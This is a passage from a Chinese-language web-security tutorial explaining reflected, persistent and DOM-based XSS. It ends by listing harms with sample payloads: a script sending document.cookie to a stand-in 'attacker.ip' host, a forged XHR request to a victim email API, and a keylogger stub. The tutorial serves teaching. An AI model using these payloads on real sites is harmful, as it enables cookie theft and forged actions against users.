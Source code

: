 这里的恶意代码来源于url中的query部分，如果我们构造一个恶意地址，就可以实现一样的攻击效果。因为注入的恶意代码是在url里，所以与前一种最大的不同是无法稳定存在，必须诱惑用户点击恶意url。这种方式叫做反射型XSS。

为什么叫反射型呢？打个比方，现在面前有一面镜子，你拿着激光笔朝着镜子照射，反射的光线的朝向是由入射光线决定的。同样地，向server端请求html，返回的结果是由url的query决定的，这种形式，就像是在反射光线一样。

可以看到，这两种XSS都是发生在服务端的。为了解决XSS人们提出了很多办法，比如在服务端对拼接好的html内容做转义和过滤等，破坏掉其中可能注入代码的地方，比如将`<`转义为`&lt;`。

后来随着前端发展，很多页面的DOM元素是在前端生成的。与后端渲染类似的，此时就出现了注入的可能。比如：

```js
function onChange(userName) {
  document.getElementById('username').innerHTML = userName;
}
```

如果userName是一段恶意代码，这段代码就会被注入进页面中，因为这个注入过程发生在前端，所以之前介绍的在后端做的XSS防范这里将无法生效。因为比较特殊，所以这种XSS被单独分离出来，称作DOM-based XSS。

综上：

1. 反射型。恶意代码来自url
2. 持久型。恶意代码来自数据库
3. DOM型。注入行为发生在浏览器。

# 常见的XSS危害举例

XSS的后果非常严重，想象一下，如果页面上的脚本可以被随意更改，那几乎什么事情都有可能发生。

1. 盗取cookie。比如：

```html
<script>
// 通过动态构造一个img标签，将当前页面的cookie发送给attack.com
new Image().src = "http://attacker.ip/" + document.cookie;
</script>
```

2. 伪造请求。有些cookie是http-only的无法得到，那就直接在源站发起请求。比如下面的例子，伪造用户调用sendEmail接口发送邮件。

```html
<script>
var xhr = new XMLHttpRequest();
xhr.open('POST','http://victim.com/api/sendEmail',true);
xhr.setRequestHeader('Content-type','application/x-www-form-urlencoded');
xhr.send('email=xxxx@example.com&content=test');
</script>
```

3. 钓鱼。在页面上动态动态伪造表单诱使用户填写，比如动态构造一个需要二次确认密码的弹窗。

4. 监听键盘事件。比如：

```html
<script>
document.onkeypress = function(e) {
  ... // 将键盘信息发送给攻击者
}
</script>
```
